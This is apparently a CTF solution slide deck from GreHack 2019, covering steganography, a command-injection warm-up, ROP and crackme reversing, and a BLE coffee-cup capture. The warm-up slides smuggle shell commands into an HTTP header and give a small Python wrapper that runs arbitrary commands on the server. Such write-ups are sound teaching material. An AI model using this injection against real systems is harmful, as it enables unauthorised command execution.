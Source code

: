 =========================
Solution of the challenge
=========================

:author: Nicolas Iooss, Adrien Guinet
:date: 2019-11-15

Presentation
~~~~~~~~~~~~

1. Real-world steganography
===========================

.. role:: latex(raw)
   :format: latex

Challenge: a GIF image, that looks like 2017's aztec challenge.

Analysis:

* dump each frames in a different file: ``convert aztec.gif frame-%d.png`` 
* in one of them (frame # 114), a metadata with ``You should look here``


1. Real-world steganography
===========================

.. raw:: latex

  \vspace{-2.5cm}
  \begin{center}
  \includegraphics[width=.8\textwidth]{images/1_sol.png}
  \end{center}

2. Warm-up
==========

.. raw:: latex

   \vspace{-2em}
    \begin{center}
    \includegraphics[width=.85\textwidth]{images/2_webapp.png}
    \end{center}

2. Warm-up
==========

.. code-block::
  
  $ curl -s https://[...].challenge.grehack.fr/is-it-down
  {
   "down" : false,
   "trace" : "PING X.X.X.X (X.X.X.X) 56(84) bytes of data.\n
      64 bytes from X.X.X.X: icmp_seq=1 ttl=52 time=2.95 ms\n\n
      --- X.X.X.X ping statistics ---\n
      1 packets transmitted, 1 received, 0% packet loss, time 0ms\n
      rtt min/avg/max/mdev = 2.948/2.948/2.948/0.000 ms\n",
   "ip" : "X.X.X.X"
  }



2. Warm-up
==========

.. code-block::

   $ rgrep ping
   iputil/iputil.go:46: pingCommand := 
     fmt.Sprintf("ping -c 1 -W 150 %s", address)
   $ curl -s -H 'Inspect-IP: 127.0.0.1; id' \
      https://[...].challenge.grehack.fr/is-it-down |json_pp
   {
      "down" : false,
      "trace" : "PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.\n
         64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.060 ms\n\n
         --- 127.0.0.1 ping statistics ---\n1 packets transmitted, 
         1 received, 0% packet loss, time 0ms\nrtt min/avg/max/mdev = 0.060/0.060/0.060/0.000 ms\n
         uid=65534(nobody) gid=65534(nobody)\n",
      "ip" : "127.0.0.1; id"
   }

2. Warm-up
==========

.. code-block:: python

   import requests
   import sys
   r = requests.get("https://[...].challenge.grehack.fr/is-it-down",
     headers={'Inspect-IP': '127.0.0.1; %s' % sys.argv[1]})
   print(r.json()['trace'])

.. code-block::

   $ python ./run.py 'ls /'
   PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
   [...]
   bin
   dev
   etc
   flag
   home
   [...]

2. Warm-up
==========

.. code-block::

   $ python ./run.py 'cat /flag'
   PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
   [...]
   GH19{challenges_for_the_ctf_will_not_be_that_easy}


3. Stacked - Let's do some reverse-engineering!
===============================================

.. raw:: latex

    \begin{center}
    \includegraphics[width=.9\textwidth]{images/3_stacked_main1.png}
    \end{center}

3. Stacked - Let's do some reverse-engineering!
===============================================

.. raw:: latex

    \begin{center}
    \includegraphics[width=.9\textwidth]{images/3_stacked_main2.png}
    \end{center}

3. Stacked - A hard-coded ROP-chain!
====================================

.. code-block:: c

    main:
        g_szPrgmArg = argv[1];
        g_ROP_buffer = malloc(0x400);
        g_ROP_buffer[0] = FUN_0040154c;
        g_ROP_buffer[1] = 0x45;
        /* ... */
        makecontext(&g_new_ctx,FUN_00401562,0);
        swapcontext(&g_old_ctx,&g_new_ctx);

    FUN_00401562:
        MOV  RSP,qword ptr [g_ROP_buffer]
        RET

3. Stacked - ROP gadgets
========================

Two 64-bit registers (at ``.bss:004040b8`` and ``.bss:004040bc``), let's call them A and B.

Gadgets: pop A, inc A, pop B, inc B, ``swapcontext`` to old context, and:

.. code-block:: c

    void check_that_pwd_idx_regA_is_regB_0401526(void) {
      if (g_szPrgmArg[g_regA] != g_regB) {
        g_fHasGoodFlag = 0;
      }
    }

:latex:`\pause`

:math:`\Rightarrow` It is possible to make the ROP chain generate the flag! (``Fr3ak1nR0P``)


4. BLE everywhere
=================

Challenge: a PCAP file => wireshark

.. raw:: latex

  \begin{center}
  \includegraphics[width=.9\textwidth]{images/4_wireshark_org.png}
  \end{center}

4. BLE everywhere
=================

After some googling, this is a PCAP generated with a Nordic BLE sniffer. Wireshark needs to be configured:

.. raw:: latex

  \begin{center}
  \includegraphics[width=.5\textwidth]{images/4_wireshark_prefs.png}
  \end{center}


4. BLE everywhere
=================

.. raw:: latex

  \begin{center}
  \includegraphics[width=.9\textwidth]{images/4_wireshark_adv.png}
  \end{center}

4. BLE everywhere
=================

This is a "smart coffee cup", where a custom picture can be uploaded via
Bluetooth (wow very smart, much disruptive):

.. raw:: latex

  \begin{center}
  \includegraphics[width=.5\textwidth]{images/muki.jpg}
  \end{center}

4. BLE everywhere
=================

Protocol reversed engineered by "jku": https://github.com/jku/mukinator

* no encryption
* transmitted image is a 264x176 B\&W image. Encoding is done on 1-bit.


4. BLE everywhere
=================

.. raw:: latex


  \begin{center}
  \includegraphics[width=.9\textwidth]{images/4_wireshark_writes.png}
  \end{center}

4. BLE everywhere
=================

Extract the data thanks to Scapy and https://github.com/sysdream/bluefruit-scapy:

.. code-block:: python

   from scapy.all import *
   import bluefruit_sniffer

   pkts = rdpcap("data.pcap")
   img = bytes()
   for p in pkts:
       try:
	   payload = p[ATT_Write_Command]
	   img += payload.data
       except IndexError:
	   continue
   open("img.raw","wb").write(img)

4. BLE everywhere
=================

Convert as a 264x176 1-bit B&W image:

.. code-block::

   $ convert -size 264x176 -monochrome -depth 1 GRAY:img.data img.png

.. raw:: latex

  \vspace{-1em}
  \begin{center}
  \includegraphics[width=.5\textwidth]{images/4_flag_bad.png}
  \end{center}

Wrong bit order?

4. BLE everywhere
=================

.. code-block:: python

   def rev(v):
     # One-liner to fit in the slides
     return int('{:08b}'.format(v)[::-1], 2)
   for p in pkts:
     try:
       payload = p[ATT_Write_Command]
       img += bytes(rev(v) for v in payload.data)
     except IndexError:
       continue

4. BLE everywhere
=================

.. raw:: latex

  \begin{center}
  \includegraphics[width=.7\textwidth]{images/4_flag.png}
  \end{center}

5. The Grid
===========

Challenge:

* an ELF x86/64 Linux binary (stripped)
* ``"Usage: %s <flag>"``

5. The Grid
===========

After some "reversing":

* each character of the flag makes you move into an "ASCII maze"
* we start from the bottom of the maze, and need to go into a specific position
* there's only one possible way, so one possible flag

5. The Grid
===========

.. raw:: latex

   \begin{center}
   \includegraphics[width=.9\textwidth]{images/5_maze.png}
   \end{center}

5. The Grid
===========

Each character is split in 2x4 bits. Two bits are mapped to a movement within the maze:

.. raw:: latex

   \begin{table}
     \ttfamily
     \begin{tabular}{|l|l|r|r|r|r|}
       \hline
       2-bit value & X shift & Y shift\\
       \hline
       0 & -2 & 0 \\
       1 & 0 & -2 \\
       2 & 1 & 0 \\
       3 & 0 & 1 \\
       \hline
     \end{tabular}
   \end{table}

Two possible approaches to figure out the flag:

* write an algorithm that goes through all the possible ways, until the wanted
  position is reached
* write directions by hand

(I took the latest)

5. The Grid
===========

.. code-block:: python

   def make_move(xd, yd):
       return {(1,0):2, (0,1):3, (0,-2):1, (-2, 0): 0}[(xd,yd)]
   def make_char(moves):
       moves = tuple(make_move(*m) for m in moves)
       return moves[0]<<6|moves[1]<<4|moves[2]<<2|moves[3]
   flag = [
       [(0,-2),(-2,0),(0,1),(-2,0)],
       [(0,-2),(1,0),(0,-2),(0,-2)],
       [...]
       [(0,-2),(0,-2),(1,0),(0,-2)]
   ]
   flag = [make_char(m) for m in flag]

Final flag is ``LeAd@Ze@VAY``


6. The Puzzle
=============

Two files:

* ``thepuzzle``: ELF 64-bit LSB pie executable, x86-64
* ``script.enc``::

      00000000: 8b79 a5b7 a119 151c a25b c7ca 9318 5b53  .y.......[....[S
      00000010: d61f 47a2 b114 79ae e265 8cf1 d4a5 1388  ..G...y..e......
      00000020: 1106 68db f55a 9578 b7f0 6675 66b4 3ca7  ..h..Z.x..fuf.<.
      00000030: 0fd9 d27b 4ca8 a949 52a1 5245 cbcf a7b9  ...{L..IR.RE....
      ...

Let's crack ``thepuzzle`` first.

6. The Puzzle - First reverse
=============================

Quick analysis:

* ``"Usage: ./%s /path/to/ds/file [key] -- aborting", argv[0]``
* The first argument must end with ``.debugging_script``
* ``if (strlen(key) < 4) fail("The key must meet our security requirements -- aborting")``
* ``fork()`` + ``usleep(100)`` + ``FUN_001015ad(*argv)`` and dirty code
* ``main`` continues to ``FUN_00101755``:

  - ``ptrace(PTRACE_ATTACH, child_pid)``
  - ``base64_decode(key)``
  - ``fopen(argv[1])``
  - Decrypt the content of the file with ``argv[1]``
  - Parse a text file. What is the grammar?


6. The Puzzle - Text parsing, the tokens
========================================

The code contains a nice description of an enum :)

::

    00108c68 49 4e 54 00       ds         "INT"
    00108c6c 50 4c 55 53 00    ds         "PLUS"
    00108c71 4d 49 4e 55 53 00 ds         "MINUS"
    00108c77 4d 55 4c 54 00    ds         "MULT"
    00108c7c 4f 50 41 52 00    ds         "OPAR"
    00108c81 43 50 41 52 00    ds         "CPAR"
    00108c86 52 45 47 00       ds         "REG"
    00108c8a 45 4e 44 00       ds         "END"

Integer, +, -, *, (, ), $, end of file.

6. The Puzzle - Text parsing
============================

* Blocks of "functions"::

      begin block_name
      ...
      end

* Instructions: parsed through calls to ``strcmp()``

  - b, bh, c, w, wr, f, mc, a, x, n

* sometimes parameters, that can be arithmetic expressions (with priorities!)
* ``FUN_00102bec``: resolve x86 register names (``eax``, ``rbp``...) into values from the child process: ``ptrace(PTRACE_GETREGS)``
* ``FUN_00102f0c``: use ``ptrace(PTRACE_SETREGS)`` to modify x86 registers

6. The Puzzle - Debugging Script Grammar
========================================

Instructions:

* b: define a breakpoint with callback in real code
* bh: define a breakpoint with 2 handlers in pseudo-code
* c: "continue"
* w: ``store_value(offset, value [, byte_count])``
* wr: ``store_random_bytes(offset, size)``
* f z: flip ZF
* mc: make a call to a function in real code
* a: add a value to a register
* x: XOR a byte with 1
* n: ``memcpy(dst, src, size)``

So... the challenge consists in programming a debugger? Strange...

6. The Puzzle - More encryption
===============================

``FUN_001035b1``: no XREF, but seems to decrypt things.

Maybe it decrypts an embedded debugging script?

:latex:`\pause`

* ``FUN_001034fd`` tries to decrypt 3 bytes with 500 keys, until the clear text is ``48 89 e5``

  - ``48 89 e5  mov %rsp,%rbp``

* ``FUN_001035b1`` decrypts with the found key until decrypting ``90 90 90`` followed by ``c3``

  - ``90  nop``
  - ``c3  retq``

* Many other functions called, which peek/poke things. Maybe for breakpoints.

Some functions are encrypted with hardcoded keys.

6. The Puzzle - Decrypting some functions
=========================================

``main`` calls ``fork()`` and the child calls ``FUN_001015ad`` which is encrypted and can be decrypted!

How to find all encrypted functions and decrypt all of them?


6. The Puzzle - DWARF to the rescue!
====================================

Enumerate Frame Description Entries::

    $ objdump --dwarf thepuzzle |grep FDE
    00000018 00000014 0000001c FDE cie=00000000 pc=00001420..0000144b
    00000048 00000024 0000001c FDE cie=00000030 pc=00001140..00001410
    00000070 00000014 00000044 FDE cie=00000030 pc=00001410..00001418
    00000088 0000001c 0000005c FDE cie=00000030 pc=00001550..00001581
    000000a8 0000001c 0000007c FDE cie=00000030 pc=00001581..000015ad
    000000c8 0000001c 0000009c FDE cie=00000030 pc=000015ad..00001755
    000000e8 0000001c 000000bc FDE cie=00000030 pc=00001755..000018c8
    00000108 00000024 000000dc FDE cie=00000030 pc=000018c8..00001a5b
    00000130 0000001c 00000104 FDE cie=00000030 pc=00001a5b..00001b05

:math:`\Rightarrow` All functions can be found, even encrypted, thanks :) ... or no

6. The Puzzle - Not so fast!
============================

Some function prefixes look strange::

    001015ad:
      push   %rbp
      mov    %rsp,%rbp
      sub    $0x40,%rsp
      mov    %rdi,-0x38(%rbp)
      jl     101546
      cmp    -0x6c(%rsi),%ecx
      cs pop %rbp
      in     $0xd5,%al
      shlb   $0x0,-0x472b9fac(%rbp)
      add    %al,(%rax)
      add    %ch,%al
      mov    $0xff,%al

6. The Puzzle - The missing part
================================

So far:

* ``thepuzzle`` forks a child process and attaches it with a debugger.
* The parent process loads an unknown debugging script that can define breakpoints, poke code, etc.
* There is an unreferenced functions that decrypts many functions.
* After the decryption, functions are still strange.

What can I do? Take a look at ``script.enc`` again?

* Is it encrypted with one of the 500 keys? No.
* It is late, let's try brute-forcing the encryption key. It succeeded! Why?!?

6. The Puzzle - The key
=======================

* The key I found: ``7gQ=`` (Base64 encoding of ``"\xee\x04"``)
* The code I read: ``if (strlen(key) < 4) fail``
* The actual code: ``if (strlen(key) != 4) fail``

It seems that the brute-force was the intended way :)

Now, there is a debugging script!!!

6. The Puzzle - The script
==========================

::

    begin MxWrPI3e73de96
    w 4070-106-3947+1539*3540-5424645 0-0*0-0+0-0+4
    wr 275155+497936+1369725 0+0+1+0+3
    end
    b 2116-539+3385+2408+8664 449-2475-2553+18324
    bh 6792*1389-6133-9402184 cSZYcDfc27076b TUOzdce2f39606
    b 1540+769-339-29*3803*1055+116375321 1630+3727-2557+10945
    bh 3699-1499*3427-435-2439-2124-1844+5168807 QmsOeob5de0057 hdMxXv7691170c

    begin NAYjxe55588ff9
    f z
    x 723-1575*779*1743*284-504-735+607342621890
    end
    bh 1112+2095+5053+4887+10127 FjsdHZaeefdd71 NAYjxe55588ff9

6. The Puzzle - The script
==========================

How is decrypting the functions handled?

::

    b 50*900*124-1014-654-5572783 5973+5699+2073

:math:`\Rightarrow` breakpoint at 0x15ad that calls 0x35b1

* 0x15ad: ``FUN_001015ad``, child process
* 0x35b1: ``FUN_001035b1``, decrypts a function with one key among 500

:latex:`\pause`

Later::

    bh 641+141+4779 QmsOeob5de0057 JYcNFGf195f9f3

* Break at 0x15b9 = 0x15ad + 12
* Call block ``QmsOeob5de0057`` when the breakpoint is first hit
* Call block ``JYcNFGf195f9f3`` later


6. The Puzzle - The script, the functions
=========================================

Breakpoint at 0x15b9 = 0x15ad + 12:

.. code-block:: python

    begin QmsOeob5de0057
      rip += 0xd # a $rip 1+1+1+0+1-1+1+9
      # => Jump to 0x15b9+1+0xd = 0x15c7
    end

    begin JYcNFGf195f9f3
      WriteVal(0x15b9, 0xeb) # w 743*615*437*906-790-180914571939
                             #   11+13-0+13*7-28*30+960
      WriteVal(0x15ba, 0x0c) # w 388+270-56+351+918+551+3140 0+1+3+8
      rip += 0x1             # a $rip 1
    end


6. The Puzzle - The script, the functions and the patch
=======================================================

.. raw:: latex

    \begin{minipage}[t]{0.52\textwidth}
    Before

    \texttt{1015ad:~push~~~\%rbp} \\
    \texttt{\textcolor{white}{.}~~~ae:~mov~~~~\%rsp,\%rbp} \\
    \texttt{\textcolor{white}{.}~~~b1:~sub~~~~\$0x40,\%rsp} \\
    \texttt{\textcolor{white}{.}~~~b5:~mov~~~~\%rdi,-0x38(\%rbp)} \\
    \textcolor{red}{\texttt{1015b9:~jl~~~~~101546}} \\
    \textcolor{red}{\texttt{\textcolor{white}{.}~~~bb:~cmp~~~~-0x6c(\%rsi),\%ecx}} \\
    \textcolor{red}{\texttt{\textcolor{white}{.}~~~be:~cs~pop~\%rbp}} \\
    \textcolor{red}{\texttt{\textcolor{white}{.}~~~c0:~in~~~~~\$0xd5,\%al}} \\
    \textcolor{red}{\texttt{\textcolor{white}{.}~~~c2:~shlb~~~\$0,-0x472b9fac(\%rbp)}} \\
    \textcolor{red}{\texttt{\textcolor{white}{.}~~~c9:~add~~~~\%al,(\%rax)}}
    \end{minipage}
    \begin{minipage}[t]{0.35\textwidth}
    After

    \texttt{1015ad:~push~~~\%rbp} \\
    \texttt{\textcolor{white}{.}~~~ae:~mov~~~~\%rsp,\%rbp} \\
    \texttt{\textcolor{white}{.}~~~b1:~sub~~~~\$0x40,\%rsp} \\
    \texttt{\textcolor{white}{.}~~~b5:~mov~~~~\%rdi,-0x38(\%rbp)} \\
    \textcolor{blue}{\texttt{1015b9:~jmp~~~~1015c7}} \\
    \textcolor{gray}{\texttt{\textcolor{white}{.}~~~~~~[...]}} \\
    \texttt{1015c7:~mov~~~~\$0x0,\%eax} \\
    \texttt{\textcolor{white}{.}~~~cc:~callq~~101581} \\
    \texttt{\textcolor{white}{.}~~~d1:~mov~~~~\%eax,-0x4(\%rbp)}
    \end{minipage}

6. The Puzzle - some patches later...
=====================================

.. code-block:: python

    # Convert debugging script to Python
    THEPUZZLE_NEW[0x64ac] = 0x5f
    THEPUZZLE_NEW[0x6291] = 5
    THEPUZZLE_NEW[0x5f5a] = 0xc
    THEPUZZLE_NEW[0x15fd:0x15fd + 5] = struct.pack('<Q', 0x1bf)[:5]
    THEPUZZLE_NEW[0x5c1d] ^= 1
    THEPUZZLE_NEW[0x62a5] = 0xaa
    THEPUZZLE_NEW[0x7208:0x7208 + 5] = struct.pack('<Q', 0xb8)[:5]
    # ...
    THEPUZZLE_NEW[0x62b8:0x62b8 + 5] = struct.pack('<Q', 0xffb9)[:5]
    THEPUZZLE_NEW[0x555c:0x555c + 5] = struct.pack('<Q', 0x1be)[:5]
    THEPUZZLE_NEW[0x7048:0x7048 + 5] = struct.pack('<Q', 0x38ba)[:5]
    THEPUZZLE_NEW[0x5b88] = 4

6. The Puzzle - some more patches later...
==========================================

.. code-block:: python

    WRITTEN_MEM = {
        0x20b240: 0x48,
        0x20b244: 0x42,
        0x20b248: 0x5,
        # ...
        0x20b28c: 0x33,
        0x20b290: 0x33,
    }

    THEPUZZLE_NEW[0x5b82] = WRITTEN_MEM[0x20b25c]
    THEPUZZLE_NEW[0x5b88] = WRITTEN_MEM[0x20b260]
    THEPUZZLE_NEW[0x5bb3] = WRITTEN_MEM[0x20b264]
    THEPUZZLE_NEW[0x5bb9] = WRITTEN_MEM[0x20b268]

6. The Puzzle - no more patches, please!
========================================

After applying patches: many nice functions :)

End of part 2.

Now, it is time for static analysis.

6. The Puzzle - The child, a first look
=======================================

.. code-block:: c

    void child_001015ad(char *pszArgv0) {
      if (strcmp(getenv("USER"), "root") != 0)
        die("Something looks wrong with your environment!\n");
      uVar3 = FUN_0010524e();
      g_pCrypto = FUN_10730a("This program cannot be run in DOS mode",0x26);
      stream = (FILE *)FUN_00105a80(pszArgv0);
      uVar4 = FUN_00105775(stream); fclose(stream);
      if (!(ptr = (void *)FUN_00103ff3(uVar4,uVar3,uVar3))
        print("Come on, give me some input to process, man.\n");
      else if (FUN_001068aa(ptr) == 0)
        print("Nope. You think you\'re a hacker but you\'re not, \
            go back to (Gh)id(r)a!\n");
      else
        print("Congrats, you\'re a hacker!\n");

6. The Puzzle - The screenshooter
=================================

.. code-block:: c

    BITMAP *FUN_0010524e(void) {
      result = NULL;
      if (display = XOpenDisplay()) {
        width = display->screens[display->default_screen].width;
        height = display->screens[display->default_screen].height;
        img = XGetImage(display,
            display->screens[display->default_screen].root,
            0, 0, width, height, -1, 2);
        result = convert_pixels_to_bitmap(img->data,width,height);
        (*(img->f).destroy_image)(img);
        XCloseDisplay(display);
      }
      return result;
    }

6. The Puzzle - The appended data
=================================

.. code-block:: c

    FILE * FUN_00105a80(char *pszArgv0) {
      stream = fopen(pszArgv0,"r");
      fseek(stream, -4, 2);  // 2 = SEEK_END
      if (fread(&uDataSize, 4, 1, stream) != 1)
        exit(1);
      fseek(stream, -4 - uDataSize,2);
      return stream;
    }

* ``FUN_00105775(stream)`` decrypts and parses the appended data.
* Data is a binary tree of ``I`` and ``L`` nodes:

  - ``I {y, x, {char, bitmap}, left, right}``
  - ``L {count, array of {char, bitmap}}``

6. The Puzzle - The appended tree
=================================

::

    Node('e', (0, 0), @)
      Node('a', (1, 0), @L)
        Node('r', (2, 0), @LL)
          Node('k', (3, 0), @LLL)
    [...]
              Node('G', (13, 0), @LLLLLLLLLLLLL)
                Leaf(count=3, 'a#H', @LLLLLLLLLLLLLL)
                Leaf(count=3, '9rG', @LLLLLLLLLLLLLR)
              Node('a', (13, 0), @LLLLLLLLLLLLR)
                Leaf(count=3, 'GHe', @LLLLLLLLLLLLRL)
                Leaf(count=2, 'ec', @LLLLLLLLLLLLRR)
    [...]
      Node('e', (1, 0), @R)
        Node('k', (2, 0), @RL)

6. The Puzzle - Crack me, if you managed to get there!
======================================================

``ptr = FUN_00103ff3(tree, bitmap)``: OCR:latex:`\footnote{Optical Character Recognition}` :math:`\rightarrow` string of 8 characters.

The checker, ``FUN_001068aa(ptr)``:

* Compute SHA256
* XOR bytes with 0x19
* Compare with 3e200bdfa8676a5f57977811ae9c283b5bc4aa9de7fcdd1056c18611a37e9f3a

John the Ripper: ``john --format=Raw-SHA256``. Which charset?

:latex:`\pause`

Characters in the tree: ``#GreHack19``.

Brute-force => Found a match! ``"krH9kkGk"``

6. The Puzzle - One last step
=============================

But ``GH19{krH9kkGk}`` is not the flag :(

Extract all the bitmaps of the tree: 28x28 white-on-black images with numbers!

* # is 0
* G is 1
* r is 2
* ...

``GH19{72497717}`` is the final flag :)

6. The Puzzle - Summary
=======================

* Many protections in this crack-me
* Encrypted debugging script with short key
* Reversible binary protections (static analysis possible!)
* Screenshot + OCR is an original way to get an input
* Encrypted tree of images for OCR
* End with a brute-forceable SHA256 hash thanks to a small charset
